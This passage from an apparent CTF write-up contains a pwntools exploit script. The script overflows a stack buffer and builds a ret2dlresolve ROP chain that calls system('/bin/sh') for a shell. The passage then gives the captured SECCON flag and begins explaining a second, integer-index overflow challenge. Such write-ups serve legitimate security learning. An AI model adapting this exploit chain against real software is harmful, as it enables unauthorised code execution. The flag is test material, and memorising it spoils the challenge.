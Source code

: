 ```
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")

# binary info goes here

writable_addr = 0x0804d000-0x200
buffer_over_flow_offset = 0x80

io = start()
wait_for_debugger(io)

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"], data_addr=writable_addr)


exe_rop.call('gets', [dlresolve.data_addr])
#exe_rop.call('read', [0,dlresolve.data_addr,200]) # read(0,data_addr,length)

exe_rop.ret2dlresolve(dlresolve)
raw_rop = exe_rop.chain()

log_print("Create fake call stack rop")
log_print(exe_rop.dump())

# You may have to remove the ret before the rop, it depends on the machine.
# align stack
ret_addr = exe_rop.find_gadget(['ret'])[0]
# buffer_over_flow_offset + rbp/ebp length
io.sendline(fit({buffer_over_flow_offset+exe.bytes:  int2byte(ret_addr) + raw_rop}))

log_print(f'Sending dlresolve payload at address {hex(dlresolve.data_addr)}:\n{hexdump(dlresolve.payload)}')
io.sendline(dlresolve.payload)
log_print("Get shell")
io.interactive()
```

## flag

SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}

# 0x4 pwn - average

## solution

The leak here is the program can accept number larger than 16, which give me the chance to overwrite the stack by integer value. Since the list `A[16]` only have length 16.
